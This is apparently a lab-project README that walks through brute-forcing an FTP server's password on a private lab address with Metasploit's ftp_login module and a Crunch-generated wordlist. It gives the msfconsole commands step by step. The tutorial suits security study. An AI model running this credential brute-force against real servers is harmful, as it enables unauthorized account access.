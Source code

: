 # FTP Password Cracking with Metasploit Framework

This project demonstrates how to retrieve the password of an FTP server using the Metasploit Framework (MSF) on a Kali Linux operating system.

## Project Overview

- **Objective**: Crack the password of an FTP server running on port `2221`.
- **Server Details**:
  - **Username**: `abolfazl`
  - **Password**: `123` (to be cracked)
  - **IP**: `192.168.200.201`
  - **Port**: `2221`

## Tools Used

- **Kali Linux**: The host OS with pre-installed Metasploit Framework.
- **Metasploit Framework**: Specifically, the `ftp_login` auxiliary module.
- **Crunch**: A tool to generate custom wordlists for password cracking.

## Steps to Reproduce

1. **Set Up the Environment**:
   - Ensure the FTP server is running and accessible with the above configurations.

2. **Launch Metasploit**:
   ```bash
   msfconsole
   ```

3. **Load the FTP Login Module**:
   ```bash
   use auxiliary/scanner/ftp/ftp_login
   ```

4. **Configure Options**:
   - Set the target host IP:
     ```bash
     set RHOSTS 192.168.200.201
     ```
   - Set the target port:
     ```bash
     set RPORT 2221
     ```
   - Provide the username and password lists.

5. **Generate a Password List (Optional)**:
   Using Crunch to create a custom password list:
   ```bash
   crunch <min_length> <max_length> <Characters_used> > <saved_file>
   ```

6. **Run the Attack**:
   Start the module:
   ```bash
   run
   ```

7. **Output**:
   The correct password will be identified from the wordlist provided.

## References

- [Metasploit Framework Documentation](https://www.metasploit.com/)
- [Crunch Password Generator](http://crunch.sourceforge.net/)

---
